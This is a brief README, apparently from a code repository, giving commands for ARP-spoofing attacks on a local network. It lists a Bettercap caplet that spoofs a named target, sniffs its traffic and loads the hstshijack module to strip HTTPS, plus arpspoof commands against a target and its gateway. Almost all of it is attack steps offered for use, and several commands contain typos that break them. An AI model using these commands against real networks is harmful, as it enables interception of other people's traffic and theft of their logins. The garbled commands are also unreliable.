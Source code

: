 # spoofing-tip-s-and-command
# ARP Spoof using Bettercap
to run the spoof.cap file you need to add only target ip 
then run this command 
# bettercap -iface eth0 -caplet spoof.cap

bettercap -face eth0,
net.probe on,
set arp.spoof.fullduplex true,
set arp.spoof.targets 192.168.1.13,
arp.spoof on,
set net.sniff.local true,
net.sniff on,
caplets.show,
hstshijack/hstshijack,


# arp spoofing
# arpspoof -i eth0 -t target-ip  router-gateway-ip
# arpspoof -i eth0 -t router-gateway-ip  target-ip

in case internet is not working use this command

# echo 1>/proc/sys/net/ipv4/ip-forword
